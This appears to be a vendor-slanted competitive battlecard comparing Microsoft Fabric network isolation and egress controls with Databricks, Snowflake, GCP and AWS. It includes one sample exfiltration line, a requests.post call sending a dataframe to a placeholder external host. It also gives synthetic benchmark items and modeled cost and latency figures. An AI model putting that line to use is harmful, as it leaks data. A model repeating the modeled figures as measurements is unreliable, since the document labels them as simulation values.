




# Microsoft Fabric Zero-Trust Network Isolation & Exfiltration Defense (Workspace-Level Private Link + Managed VNet Spark + Outbound Access Protection + Trusted Workspace Access) vs. Databricks Classic VNet Injection / NCC vs. Snowflake Business Critical PrivateLink vs. GCP VPC-SC / AWS PrivateLink: Architectural Selection & First-Principles FAQ Guide

> **Audience**: Field Selection & Competitive Battlecard Guide for **AI Solution Architects, Financial/Sovereign CISOs, Cloud Network Architects, and Data Platform Leaders (Round 12 Standalone Deep Dive)**  
> **Reading Time**: 3 minutes for the Executive Summary; 10 minutes to master how to eliminate public ingress exposure, rogue PyPI notebook data exfiltration, Snowflake's ~1.5x Business Critical edition tax, and customer-managed VNet/Firewall NetOps overhead  
> **Bilingual Edition**: [中文版](./fabric-private-link-managed-vnet-security-vs-4clouds-faq.md) | [English Version (Current)](./fabric-private-link-managed-vnet-security-vs-4clouds-faq.en.md) | [Back to Data Lab Home](../README.en.md) | [Open Interactive Battlecard Workbench](../live-demo.en.html) | [View 7-Card Benchmark Deck](../benchmark-cards.en.html)

---

## 📌 1. Executive Summary

If you have only 3 minutes to brief a Sovereign Wealth Fund, Global Bank, or Pharmaceutical CISO on **how to enforce EU DORA / NIS2 and zero-trust network isolation—blocking both public internet ingress and insider/supply-chain notebook data exfiltration without paying a 1.5x edition surcharge or managing custom `/22` VNet subnets and cloud firewalls**, anchor on these three architectural rules:

1. **When to Standardize on Microsoft Fabric's Zero-Trust Network Security Suite (`Workspace-Level Private Link` + `Managed VNet for Spark` + `Outbound Access Protection (OAP)` + `Trusted Workspace Access (TWA)`)**:
   - Choose **Microsoft Fabric** whenever an enterprise needs **per-workspace inbound private isolation (`Workspace-Level Private Link`)**, **default-deny outbound exfiltration blocking (`Outbound Access Protection + Managed Private Endpoints`)**, and **backbone bypass into firewall-locked ADLS Gen2 vaults (`Trusted Workspace Access`)** included directly on standard **F-SKU** capacities—with **zero customer subnet/CIDR management, zero NAT Gateway / Azure Firewall appliance tax, and zero 1.5x edition upgrade multiplier** `[vendor_published_spec_as_of_2026]`.
2. **When to Coexist ("Better Together") with Databricks (`Classic VNet Injection` / `Serverless NCC`) or Snowflake (`Business Critical PrivateLink`)**:
   - Retain **Databricks Classic VNet Injection** for workloads where corporate InfoSec mandates injecting compute nodes into **customer-owned VNet subnets** with custom User-Defined Routes (UDRs) forcing every packet through a third-party Layer-7 Deep Packet Inspection (DPI) firewall appliance (e.g., Palo Alto Networks or Fortinet NGFW);
   - When core enterprise tables already reside in **Snowflake**, do **not** upgrade every downstream BI dashboard and AI Agent query workload to **Snowflake Business Critical Edition (~1.5x credit price multiplier)** merely to satisfy PrivateLink ingress requirements. Instead, terminate user and Copilot Agent traffic inside standard **Fabric F-SKU Workspaces with Workspace-Level Private Link + OAP**, and connect backend ingestion to Snowflake or ADLS Gen2 over admin-approved **Managed Private Endpoints (MPE)** or **Trusted Workspace Access (TWA)**.
3. **First-Principles Technical Essence (Why Legacy Cloud Data Network Isolation Is Both Expensive and Leaky)**:
   - **The Legacy Dilemma**: Either you inject hundreds of Spark containers into customer-managed subnets (**Classic VNet Injection**), causing RFC1918 IP address exhaustion and forcing NetOps to pay $6,000–$12,000/month for NAT Gateways and cloud firewalls (**the NetOps Appliance Tax**); or you lock only the "front door" (inbound PrivateLink) while leaving outbound notebook internet access wide open—allowing a single compromised PyPI wheel (`requests.post()`) to exfiltrate sensitive portfolio weights to an external IP (**the Egress Exfiltration Blind Spot**).
   - **How Fabric Solves It**: Fabric shifts perimeter security to **SaaS Managed Micro-Segmentation**—locking individual sensitive deal-room workspaces on the inbound side via **Workspace-Level Private Link**, sealing all outbound Spark/Shortcut/Pipeline connections by default via **Outbound Access Protection (`OAP`, Default-Deny Egress)** with admin-approved **Managed Private Endpoints (`MPE`)**, and accessing firewall-locked ADLS Gen2 storage over Microsoft's backbone via **Trusted Workspace Access (`TWA`)** resource-instance rules. In our deterministic **22-Workspace Sovereign Wealth DORA/NIS2 Simulation (`Scenario S`)** `[synthetic_scenario_model]`, this architecture cuts monthly network security and edition-tier TCO from **$27,600/mo to $8,700/mo (-68.5%, saving $18,900/mo)** while intercepting 14/14 unauthorized PySpark outbound exfiltration attempts in **367ms (0 bytes leaked)**.

---

## 🎯 2. Customer & Architect Soul-Searching Q&A (FAQ-Driven First Principles)

### Q1: Every cloud vendor claims to support "PrivateLink and VNet Isolation." How does Microsoft Fabric's Managed VNet + Workspace-Level Private Link fundamentally differ from Databricks Classic VNet Injection and Snowflake Business Critical PrivateLink?

#### 1. Plain-Language First Principles: Building Your Own Armored Convoy vs. Moving into a Managed Bank Vault
Imagine securing 22 M&A deal-room and sovereign quant workspaces:
- **Pain Point A (Databricks Classic VNet Injection's "CIDR Exhaustion & Firewall Appliance Tax")**:
  - In Classic VNet Injection, every Spark cluster spins up inside subnets owned and routed by the customer. When 20+ teams launch concurrent Spark jobs, `/22` and `/20` enterprise IP ranges rapidly run out of addresses (IP exhaustion). Worse, to inspect or restrict outbound traffic, the customer must provision and pay hourly + per-GB processing charges for **NAT Gateways and Cloud Firewalls (Azure Firewall / AWS Network Firewall)**—adding $6,000–$12,000/month in fixed network infrastructure overhead before running a single query `[vendor_published_spec_as_of_2026]`.
- **Pain Point B (Snowflake Business Critical's "~1.5x Edition Gatekeeping Tax")**:
  - In Snowflake, Standard (~$2/credit) and Enterprise (~$3/credit) editions **do not allow enabling AWS or Azure PrivateLink**! If InfoSec mandates that all analytical traffic must traverse PrivateLink with zero public internet exposure, the organization is forced to upgrade to **Snowflake Business Critical Edition (~$4/credit, a ~33%–50% / 1.33x–1.5x credit surcharge)** `[vendor_published_spec_as_of_2026]`. Every routine SQL dashboard refresh now pays a permanent edition multiplier just for private network connectivity.
- **Pain Point C (All-or-Nothing Tenant Lockouts)**:
  - Historically, enabling only a **Tenant-Level Private Link** locked down the entire corporate tenant—forcing every marketing employee viewing a non-sensitive weekly report onto corporate VPN/ExpressRoute, while leaving no way to isolate just the 22 regulated sovereign deal rooms.

#### 2. How Microsoft Fabric Eliminates Both Taxes
Fabric delivers **zero-subnet-ops, zero-edition-surcharge, workspace-granular isolation** `[vendor_published_spec_as_of_2026]`:
1. **Workspace-Level Private Link (Included on Standard F-SKUs)**:
   - Architects can enforce dedicated Azure Private Link ingress on the 22 sovereign deal-room workspaces (`Block Public Internet Access`) while leaving general business workspaces accessible via standard Entra Conditional Access. Crucially, **Private Link is supported across standard Fabric F-SKU capacities without requiring a 1.5x Business Critical tier upgrade**.
2. **Managed Virtual Network for Spark (Zero Customer CIDR Consumption, $0 NAT/Firewall Tax)**:
   - Fabric automatically provisions isolated managed virtual network containers for the workspace behind the scenes. Customers consume **zero IP addresses from their corporate VNet** and pay **$0 for customer-managed NAT Gateways or Azure Firewalls**.

---

### Q2: Many CISOs assume "Inbound Private Link = Safe." Why are insider PySpark notebooks and compromised Python packages still the #1 data exfiltration vector, and how do `Outbound Access Protection (OAP)`, `Managed Private Endpoints (MPE)`, and `Trusted Workspace Access (TWA)` stop it?

#### 1. Plain-Language First Principles: Locking the Front Door Doesn't Stop Someone from Throwing a USB Drive Out the Window
In modern cloud breaches, attackers rarely brute-force the inbound PrivateLink endpoint. Instead, they exploit **outbound egress blind spots**:
- An authorized quant connects over PrivateLink into a secure workspace and imports a third-party Python package in a PySpark notebook.
- If **outbound internet access** is open by default, three lines of malicious code inside that package (`requests.post("https://external-drop.example/collect", data=df.to_json())`) can silently stream sensitive portfolio holdings out over the public internet. Inbound PrivateLink does nothing to stop outbound connections initiated from inside the compute container.
- Meanwhile, InfoSec locks down the enterprise **Azure Data Lake Storage (ADLS) Gen2** account (`Public network access: Disabled`). Immediately, cloud analytics engines lose access unless someone opens a firewall hole—tempting teams to turn public storage access back on.

#### 2. How Fabric's Three-Layer Outbound Defense (OAP + MPE + TWA) Seals the Perimeter
Microsoft Fabric enforces defense-in-depth across compute, outbound tunnels, and storage `[vendor_published_spec_as_of_2026]`:

1. **Gate 1 — Outbound Access Protection (`OAP` = Default-Deny Egress)**:
   - Flipping on **Outbound Access Protection (OAP)** at the workspace level immediately blocks all outbound network connections from Spark notebooks, OneLake Shortcuts, Data Factory pipelines, and Power BI Semantic Models to the public internet or unapproved endpoints.
   - When a compromised Python wheel attempts an unauthorized `HTTPS POST` to an external IP, the connection is dropped at the managed VNet boundary before a single byte leaves (**0 bytes leaked**).
2. **Gate 2 — Managed Private Endpoints (`MPE` = Admin-Approved Dual-Handshake Tunnels)**:
   - With OAP blocking all egress, how do legitimate Spark jobs reach an internal Azure SQL Database, Snowflake warehouse, or private PyPI repo?
   - The workspace admin creates a **Managed Private Endpoint (MPE)** pointing to the specific target resource ID. The connection remains `Pending` until the **target resource owner (e.g., the Azure SQL DBA)** explicitly clicks `Approve` in Azure Portal. Even if malicious code runs inside a notebook, it cannot spin up an unapproved tunnel to an external server.
3. **Gate 3 — Trusted Workspace Access (`TWA` = Resource-Instance Backbone Bypass into Locked ADLS Gen2)**:
   - To read a firewall-locked ADLS Gen2 storage account (`Public network access: Disabled`), architects configure an ARM **Resource Instance Rule** authorizing the specific Fabric Workspace GUID.
   - OneLake Shortcuts and Data Factory pipelines authenticate with hardware-backed workspace identity over the Microsoft Azure backbone—keeping ADLS Gen2 100% closed to the public internet while enabling zero-copy Shortcuts.

---

### Q3: How Should Architects Design a "Better Together" Zero-Trust Perimeter When Coexisting with Databricks, Snowflake, GCP BigQuery, or AWS Lakehouse?

1. **Pattern 1 — SaaS Zero-Trust Deal Rooms & Regulated AI Workspaces → Standardize on Microsoft Fabric (`Workspace Private Link` + `OAP` + `MPE` + `TWA`)**:
   - Deliver inbound Private Link + default-deny outbound protection in 15 minutes with zero `/22` subnet planning, zero Azure Firewall bills, and zero 1.5x edition multipliers.
2. **Pattern 2 — Mandatory Third-Party L7 DPI Firewall Inspection → Databricks Classic VNet Injection + Fabric Private Link Presentation Layer**:
   - Keep heavy ingestion workloads that legally require custom UDR routing through customer-managed Palo Alto / Fortinet NGFW appliances inside **Databricks Classic VNet Injection**; mount the curated Gold Delta tables into a **Fabric Private Link + OAP** workspace via **Trusted Workspace Access** for DirectLake BI and Copilot Data Agents.
3. **Pattern 3 — Avoiding Snowflake's 1.5x Business Critical Tax for Enterprise BI & Agents → Fabric Workspace Private Link Front-End + MPE Back-End**:
   - Host high-concurrency executive BI and Data Agents in standard **Fabric F-SKU workspaces with Workspace Private Link + OAP**, and connect to backend data sources via approved private tunnels—avoiding upgrading thousands of routine analytical users to Snowflake Business Critical (~1.5x credit surcharge).
4. **Pattern 4 — Cross-Cloud Perimeter Governance with GCP BigQuery → GCP VPC Service Controls (`VPC-SC`) + Fabric OneLake Mirroring Allowlist**:
   - Maintain GCP's `VPC-SC` perimeter around BigQuery datasets and authorize only the designated Fabric Mirroring service principal via controlled ingress/egress policies.

---

## 🧭 3. Visual Architecture Diagrams (Mermaid Selection Decision Tree + Legacy vs. Fabric Zero-Trust Architecture + 367ms Exfiltration Defense Sequence)

### 3.1 Zero-Trust Network Isolation & Exfiltration Defense Decision Tree (`flowchart TD`)

---

### 3.2 Legacy Customer VNet Injection / Business Critical Tier Tax vs. Fabric Managed Zero-Trust Micro-Segmentation (`flowchart LR`)

---

### 3.3 Sovereign Wealth Fund 22-Workspace EU DORA / NIS2 Exfiltration Defense Sequence (`Scenario S`: 367ms Modeled Closed Loop, `sequenceDiagram`)

> **Provenance Note `[synthetic_scenario_model]`**: This sequence trace reflects deterministic architecture simulation `Scenario S (sovereign_wealth_private_link_managed_vnet_exfil_defense)` in `reports/report.json` (`367 ms = 88 + 96 + 98 + 85 ms`).

---

## 📊 4. Five-Cloud Zero-Trust Network Isolation & Exfiltration Defense Architect Decision Matrix

> **Verification Scope**: Platform capabilities and edition requirements are verified against official vendor documentation `[vendor_published_spec_as_of_2026]` (Reference #15 in `reports/report.json`, verified `as_of: 2026-11-08`); 22-workspace monthly TCO figures represent deterministic scenario modeling `[synthetic_scenario_model]`.

| Evaluation Dimension | **Microsoft Fabric (Private Link + Managed VNet + OAP + TWA)** | **Databricks (Classic VNet Injection & Serverless NCC)** | **Snowflake (Business Critical PrivateLink + External Access)** | **GCP (BigQuery + VPC Service Controls + PSC)** | **AWS (Lakehouse + PrivateLink + Customer VPC)** |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Primary Sweet Spot** | Zero-NetOps workspace-granular Private Link, default-deny Spark/Shortcut exfiltration defense, and backbone access to locked ADLS Gen2 | Workloads mandating customer-owned VNet subnet injection with custom UDRs to 3rd-party L7 DPI firewalls, or Serverless NCC | Snowflake-centric enterprises already licensed on Business Critical edition | GCP-native analytics estates governed by organization-wide VPC Service Controls (VPC-SC) perimeters | AWS-native teams managing custom VPC subnets, Security Groups, and AWS Network Firewall |
| **Inbound PrivateLink Granularity & Edition Gatekeeping** `[vendor_published_spec_as_of_2026]` | **Dual Tenant-Level + Workspace-Level Private Link**; **included on all standard F-SKUs** with zero edition multiplier | Front-End & Back-End PrivateLink supported (**Enterprise Tier required**) | AWS/Azure/GCP PrivateLink **requires Business Critical Edition or higher (~1.5x credit price multiplier over Enterprise)** | Private Service Connect (PSC) endpoints + VPC-SC perimeters | AWS PrivateLink Interface VPC Endpoints per service (Redshift, Athena, Glue, S3) |
| **Outbound Exfiltration Control (Egress Firewall)** `[vendor_published_spec_as_of_2026]` | **Outbound Access Protection (OAP)** enforces workspace-wide default-deny egress across Spark, Shortcuts, Pipelines & Semantic Models + **admin-approved MPE** | **Serverless NCC Egress Firewall** (Serverless) or **Customer VNet NAT + Firewall** (Classic compute plane) | Default-deny external access in Snowpark UDF/Containers; opened via **External Network Access Integration + Outbound PrivateLink** | **VPC Service Controls (VPC-SC)** blocks unauthorized cross-perimeter API data exfiltration | Customer-managed private subnet route tables + **AWS Network Firewall / Route 53 DNS Firewall** |
| **Firewall-Locked Cloud Storage Bypass** `[vendor_published_spec_as_of_2026]` | **Trusted Workspace Access (TWA)** via Azure Storage ARM Resource Instance Rules (by Workspace GUID) over Azure backbone | Serverless NCC storage firewall rules or Azure Private Endpoints | Storage Integration + cloud storage VNet/VPC allowlists or Outbound PrivateLink | BigLake within VPC-SC perimeter | S3 VPC Endpoints + Bucket Policy `aws:SourceVpce` conditions |
| **Customer NetOps Burden** | **Minimal (SaaS Managed)**: No `/22` subnet sizing, zero IP exhaustion, zero NAT Gateway or firewall appliances to patch | **Medium–High**: Classic VNet Injection requires large CIDR blocks & NAT/Firewall ops; Serverless NCC simplifies serverless egress | **Medium**: No CIDR sizing, but requires cloud PrivateLink token handshakes, split-horizon DNS, and Business Critical tier budget | **Medium**: High learning curve for VPC-SC dry-run policies and cross-project ingress/egress YAML troubleshooting | **High**: Multi-service Interface VPC Endpoint sprawl, Security Groups, and Network Firewall rule management |
| **Modeled 22-Workspace Sovereign NetSec Monthly TCO** `[synthetic_scenario_model]` | **$8,700 / mo** (Included on standard F64 + nominal Azure Private Endpoint fees; **68.5% lower**) | **$21,400 / mo** (Enterprise DBU tier + customer-managed NAT Gateway & Azure Firewall hourly/GB fees) | **$27,600 / mo** (~1.5x Business Critical credit multiplier surcharge across analytical workloads + PE fees) | **$19,200 / mo** (PSC forwarding charges + Cloud NAT / Cloud NGFW & perimeter ops) | **$23,100 / mo** (Dozens of Interface VPC Endpoints across AZs + AWS Network Firewall hourly/GB processing fees) |

---

## 🧪 5. Quantitative Benchmark & TCO / Latency Inflection Insights (Strict Dual-Denominator & Four-Tier Provenance Audit)

> **⚠️ Strict Data Provenance & Separated Denominator Disclosure**:  
> Every metric below is computed directly from sealed benchmark report `workshops/data-lab/reports/report.json` (`report_id = data-lab-fabric-vs-4clouds-2026-11-09-r12`) with zero fabricated coordinates and explicit separation between routing-matrix task latency and end-to-end industry ontology simulation latency:
> 1. **`[measured_local_harness]` (Local Deterministic Verifier Execution)**: All **42 / 42 Python unit tests pass in `0.082s`**; the 92-task routing evaluation matrix scores **91 / 92 (`98.91%`)** (including explicit boundary miss `DL-23` and newly verified `DL-89..DL-92`).
> 2. **`[vendor_published_spec_as_of_2026]` (Official Vendor Documentation & Pricing Specs, Verified `as_of: 2026-11-08`)**: **15 verified entries** with official `https://...` URLs (including `SPEC-FABRIC-PRIVATE-LINK-MANAGED-VNET-OAP` covering Fabric Private Links, Outbound Access Protection, Managed Private Endpoints, Trusted Workspace Access, Databricks NCC, Snowflake PrivateLink Business Critical requirements, and GCP VPC-SC).
> 3. **`[synthetic_scenario_model]` (Deterministic Architecture Simulation Models — Strictly Separated Denominators)**:
>    - **Denominator A — Routing Decision Matrix Mean (`scenario_evaluation`, `n = 92` routing tasks)**: Mean modeled latency = **`486.0 ms`** (with `DL-89=374ms, DL-90=378ms, DL-91=375ms, DL-92=377ms`; historical snapshots preserved: R11 `n=88` = `491.0 ms`, R10 `n=84` = `496.0 ms`, R9 `n=80` = `501.0 ms`, R8 `n=76` = `506.0 ms`, R7 `n=72` = `511.0 ms`, R6 `n=68` = `516.0 ms`, R5 `n=64` = `521.0 ms`, R4 `n=60` = `526.5 ms`, R3 `n=56` = `532.0 ms`).
>    - **Denominator B — Industry Ontology Closed-Loop Simulation Mean (`ontology_simulations`, `n = 19` end-to-end industry simulations)**: Mean modeled end-to-end latency = **`511.0 ms`**, range **`367–780 ms`** (including `Scenario S: sovereign_wealth_private_link_managed_vnet_exfil_defense = 367 ms`; historical immutable snapshots preserved: R11 `n=18` = `519.0 ms`, R10 `n=17` = `527.0 ms`, R9 `n=16` = `535.0 ms`, R8 `n=15` = `543.0 ms`, R7 `n=14` = `552.0 ms`, R6 `n=13` = `562.0 ms`, R5 `n=12` = `572.92 ms`, R4 `n=11` = `584.09 ms`, R3 `n=10` = `596.0 ms`).
> 4. **`[not_measured]` (Live Cloud Penetration & Stress Tests Not Executed)**: Live multi-cloud production ExpressRoute packet-flooding and penetration tests were not executed against paid cloud subscriptions; all millisecond and dollar figures are deterministic architectural simulation values.

### 5.1 Scenario S (Sovereign Wealth 22-Workspace DORA/NIS2 Zero-Trust Exfiltration Defense) Quantitative Breakdown `[synthetic_scenario_model]`

| Metric / Stage | Legacy VNet Injection / Snowflake Business Critical Baseline `[synthetic_scenario_model]` | Microsoft Fabric (Workspace Private Link + Managed VNet OAP + TWA) `[synthetic_scenario_model]` | Architectural Impact & Inflection Insight |
| :--- | :--- | :--- | :--- |
| **Public Internet Ingress Endpoints (Across 22 Deal-Room Workspaces)** | High risk of misconfigured subnet NSGs or overly broad tenant-wide VPN access | **0 Public Endpoints** (Per-workspace Private Link policy verified in `88 ms`) | Isolates confidential sovereign deal rooms without locking out general BI users |
| **Rogue PyPI Wheel Outbound HTTPS POST Interception** | Open outbound NAT allows compromised notebook libraries to exfiltrate portfolio weights | **14 / 14 Exfiltration Attempts Blocked (`0 Bytes Leaked`, `96 ms` OAP + MPE check)** | Outbound Access Protection enforces default-deny egress across Spark & Shortcuts |
| **Firewall-Locked ADLS Gen2 Vault Access & DORA Policy Check** | Complex subnet allowlists or unsafe public storage firewall exceptions | **`98 ms`** (Trusted Workspace Access resource-instance rule + Foundry IQ DORA check) | Keeps ADLS Gen2 100% closed to public networks while enabling zero-copy Shortcuts |
| **SecOps Quarantine & Immutable Audit Commit** | Manual SIEM log correlation taking 15–45 minutes | **`85 ms`** (Committed to 1GB Free Fabric SQL audit ledger; **`367 ms` E2E**) | Satisfies real-time EU DORA / NIS2 incident containment & auditability mandates |
| **22-Workspace Monthly Network Security & Edition Tier TCO** | **$27,600 / mo** (Snowflake Business Critical ~1.5x surcharge or customer NAT/Firewall tax) | **$8,700 / mo** (Included on standard F-SKU capacities; **saves $18,900/mo or 68.5%**) | Eliminates the 1.5x tier multiplier and cloud firewall appliance tax; avoids **$4.20M** modeled DORA penalty exposure |

### 5.2 Round 12 Zero-Trust Network Isolation Routing Benchmark Cases (`DL-89` – `DL-92`) `[measured_local_harness]`

| ID | Category | Architect Decision Question Summary | Expected Routing Decision (`expected`) | Modeled Latency `[synthetic_scenario_model]` | Result `[measured_local_harness]` |
| :--- | :--- | :--- | :--- | :---: | :---: |
| **DL-89** | Architecture & Governance | Isolate 22 sovereign deal-room workspaces from public internet ingress and block unauthorized PySpark data exfiltration without managing custom VNet subnets, NAT Gateways, or Azure Firewalls | **Fabric Workspace-Level Private Link + Managed Virtual Network for Spark + Outbound Access Protection (OAP) + Managed Private Endpoints (MPE) + Trusted Workspace Access (TWA)** | `374 ms` | ✅ PASS (`0.99`) |
| **DL-90** | vs Databricks | Compare Microsoft Fabric Managed VNet + OAP + TWA vs Databricks Classic VNet Injection (Customer Subnet/NAT/Firewall) & Serverless NCC | **Use Databricks Classic VNet Injection when custom UDR appliances or third-party L7 DPI firewalls are mandated; use Fabric Managed VNet + OAP + MPE for zero-NetOps default-deny exfiltration defense** | `378 ms` | ✅ PASS (`0.97`) |
| **DL-91** | vs Snowflake | Compare Fabric Workspace-Level Private Link + MPE (Included on F-SKUs) vs Snowflake PrivateLink (Requires Business Critical Edition ~1.5x Credit Multiplier) | **Avoid Snowflake Business Critical 1.5x tier surcharge for BI/Agent workloads by terminating Private Link in Fabric F-SKU workspaces and connecting to Snowflake/ADLS via MPE & TWA** | `375 ms` | ✅ PASS (`0.96`) |
| **DL-92** | Architecture & Governance | Malicious Python wheel in quantitative Spark notebook attempts unauthorized HTTPS POST of sovereign portfolio weights to an external IP under EU DORA/NIS2 mandate | **Fabric Workspace Private Link Verify (88ms) + Managed VNet OAP Default-Deny Block (96ms, 0 Bytes Leaked) + TWA Guardrail (98ms) + Purview/SQL Quarantine Commit (85ms = 367ms E2E, Protect $4.20M DORA Fine)** | `377 ms` | ✅ PASS (`0.99`) |

---

## 🛠️ 6. Appendix: Production Rollout & Pre-Sales Architect Checklist

Before signing off on a regulated financial, healthcare, or sovereign AI data platform perimeter design, verify these 6 field checkpoints:

- [ ] **1. Scope Workspace-Level Private Link Instead of Blanket Tenant Lockouts**: Identify which specific workspaces house regulated data (M&A deal rooms, sovereign portfolios, clinical trials) and enable **Workspace-Level Private Link** on those workspaces rather than forcing every non-sensitive corporate report behind a tenant-wide VPN lockout `[vendor_published_spec_as_of_2026]`.
- [ ] **2. Enforce Outbound Access Protection (`OAP`) on Every High-Security Workspace**: Never stop at inbound Private Link! Enable **OAP (Default-Deny Egress)** so that Spark notebooks, OneLake Shortcuts, Data Factory pipelines, and Semantic Models cannot initiate unauthorized outbound connections to external domains or IPs `[vendor_published_spec_as_of_2026]`.
- [ ] **3. Replace IP Allowlists with Admin-Approved Managed Private Endpoints (`MPE`)**: When an OAP-protected workspace must query Azure SQL, Snowflake, Databricks, or a private artifact registry, create an **MPE** and require the target resource administrator to explicitly `Approve` the private endpoint connection in Azure Portal `[vendor_published_spec_as_of_2026]`.
- [ ] **4. Configure Trusted Workspace Access (`TWA`) for Firewall-Locked ADLS Gen2 Accounts**: Keep Azure Storage accounts locked to public networks (`Disabled from all networks`) and add an ARM **Resource Instance Rule** referencing the specific Fabric Workspace GUID so OneLake Shortcuts read over the Azure backbone `[vendor_published_spec_as_of_2026]`.
- [ ] **5. Quantify the Snowflake Business Critical (~1.5x) & Customer Firewall TCO Surcharge**: During commercial reviews, calculate how much the customer is overpaying to run routine BI/Agent queries on Snowflake Business Critical (~1.5x credit multiplier) or customer-managed Azure Firewall / NAT Gateways, and demonstrate how **Fabric standard F-SKU Workspace Private Link + OAP** eliminates both surcharges `[synthetic_scenario_model]`.
- [ ] **6. Define the Clean "Better Together" Boundary with Databricks Classic VNet Injection**: When corporate InfoSec strictly requires custom UDR traffic steering through a customer-managed Palo Alto / Fortinet L7 DPI appliance, position **Databricks Classic VNet Injection** for that specific ingestion tier and connect downstream Gold tables into **Fabric Workspace Private Link** via **Trusted Workspace Access**.

---

## 🔗 7. Official Vendor Specification References (`as_of: 2026-11-08`)

1. **Microsoft Fabric Private Links (Tenant & Workspace-Level Inbound Isolation)**: `https://learn.microsoft.com/en-us/fabric/security/security-private-links-overview` (`as_of: 2026-11-08`)
2. **Microsoft Fabric Workspace Outbound Access Protection (OAP)**: `https://learn.microsoft.com/en-us/fabric/security/workspace-outbound-access-protection` (`as_of: 2026-11-08`)
3. **Microsoft Fabric Managed Virtual Network & Managed Private Endpoints (MPE)**: `https://learn.microsoft.com/en-us/fabric/security/security-managed-private-endpoints-overview` (`as_of: 2026-11-08`)
4. **Databricks Serverless Network Security (NCC) & Classic VNet Injection**: `https://docs.databricks.com/en/security/network/serverless-network-security/index.html` (`as_of: 2026-11-08`)
5. **Snowflake PrivateLink & Business Critical Edition Requirement**: `https://docs.snowflake.com/en/user-guide/admin-security-privatelink` (`as_of: 2026-11-08`)
6. **Google Cloud VPC Service Controls (VPC-SC) Overview**: `https://cloud.google.com/vpc-service-controls/docs/overview` (`as_of: 2026-11-08`)
